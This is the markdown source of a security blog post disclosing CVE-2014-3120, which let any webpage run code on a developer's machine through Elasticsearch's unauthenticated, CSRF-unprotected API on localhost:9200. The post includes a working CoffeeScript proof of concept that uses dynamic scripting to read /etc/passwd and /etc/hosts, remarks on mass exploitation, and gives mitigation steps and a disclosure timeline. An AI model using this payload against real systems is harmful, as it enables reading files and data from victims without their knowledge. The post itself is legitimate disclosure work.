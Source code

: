 ```yaml
---
layout: post
title: Insecure default in Elasticsearch allows remote code execution

---
```


Elasticsearch has a flaw in its default configuration which makes it possible for a random webpage to execute arbitrary code on visitors with Elasticsearch installed. If you're running Elasticsearch in development please read [the instructions](#how_to_secure_against_this_issue) on how to secure your machine. Elasticsearch version 1.2 (which is unreleased as of writing) is not vulnerable to remote code execution, but still has some security issues.

## The problem(s)
There are a couple of problems which enable the proof of concept I'm going to present:

* Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
* The API for Elasticsearch is accessible over [HTTP](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html) and provides no CSRF protection whatsoever.
* It contains a [feature](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_disabling_dynamic_scripts) which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
* Up to version 1.2 [dynamic scripting](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_disabling_dynamic_scripts) (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.

There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch you probably have it running on your machine. The default port is `9200`, and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.

## PoC
The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.

{% highlight coffeescript %}
read_file = (filename) ->
  """
  import java.io.File;
  import java.util.Scanner;
  new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
  """

$ ->
  exploit = {
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {}
  }


  for filename in ["/etc/hosts", "/etc/passwd"]
    exploit["script_fields"][filename] = {"script": read_file(filename)}

  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(exploit))}&callback=?", (data) ->
    console.log(data)
    for hit in data["hits"]["hits"]
      for filename, contents of hit["fields"]
        document.write("<h2>#{filename}</h2>")
        for content in contents
          document.write("<pre>" + content + "</pre>")
        document.write("<hr>")
{% endhighlight %}

You can verify whether you're vulnerable by trying out the above PoC <a href="/blog/elasticsearch-rce/poc.html" target="_blank">here</a>.

There are many ways to exploit this, you could link the victim to the page or embed it as an Iframe. You can even exploit this by crafting a URL and using it as the `src` of an `<img>`, as the only thing that needs to happen is a single GET request. No user interaction required!

Because this is so easily exploitable you can mass-pwn developers with relatively little work.

## How to secure against this issue

Add the following line to your `elasticsearch.yml` to disable dynamic scripting and prevent remote code execution:

{% highlight yaml %}
script.disable_dynamic: true
{% endhighlight %}

You should also make sure that your local Elasticsearch instance is only binding on `localhost`, as someone could exploit you over LAN if you don't. The Homebrew Elasticsearch formula does this automatically.

If you want to be as secure as possible, you should run Elasticsearch inside a virtual machine, to make sure it has no access to the hosting machine at all.

## Additional targets

Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included.

If an attacker can figure out the internal address of your production Elasticsearch instance (hint: assume they can), you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to the Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.

### Notes

* I have reserved [CVE-2014-3120](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2014-3120) for this issue.
* This exploit was tested against Elasticsearch version 1.1.1 on MacOSX installed through Homebrew. No configuration changes were made.
* I notified Elasticsearch through their [security report instructions](http://www.elasticsearch.org/community/security/) on the 26th of April 2014. They replied they were aware of it, but didn't intend to do a security release and instead [disable](https://github.com/elasticsearch/elasticsearch/issues/5853) dynamic scripting by default in version 1.2.
* This exact exploit has been indepently discovered and [blogged about](https://www.found.no/foundation/elasticsearch-security/#staying-safe-while-developing-with-elasticsearch) on December 9th 2013.
